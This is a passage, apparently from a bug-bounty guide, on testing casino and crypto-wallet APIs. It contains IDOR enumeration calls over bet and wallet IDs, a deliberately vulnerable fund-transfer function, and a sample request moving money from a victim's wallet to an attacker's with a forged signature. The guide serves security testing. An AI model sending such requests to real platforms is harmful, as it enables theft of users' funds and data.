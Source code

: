 ```javascript
// Test bet history
testIDOR('/api/bets/user/', 1, 1000);

// Test wallets
testIDOR('/api/wallet/', 1, 1000);
```

---

### 5. **Unauthorized Fund Transfer (Cosmos SDK Pattern)**

**Target:** Cryptocurrency platforms  
**Severity:** CRITICAL  
**CVSS:** 9.8+  
**Bounty:** $10,000-$50,000+

**Vulnerability:**
```javascript
// Bypass in SendCoins validation
function SendCoins(from, to, amount) {
    // Vulnerable: Only checks if 'from' matches sender in simple transactions
    // Doesn't validate properly in MsgExecute wrappers
    if (isUnlocked(from)) {
        transfer(from, to, amount);
    }
}
```

**Casino Crypto Wallet Application:**

```javascript
// Test wrapped transaction bypass
POST /api/wallet/execute
{
  "action": "transfer",
  "transactions": [
    {
      "from": "victim_wallet_address",  // Other user's wallet
      "to": "attacker_wallet_address",
      "amount": 1000,
      "signature": "<forged_or_bypassed>"
    }
  ]
}
```

**Red Flags:**
- Multiple wallet types (locked/unlocked/escrow)
- Complex transaction wrappers
- Batch transaction processing
- Insufficient sender validation

---
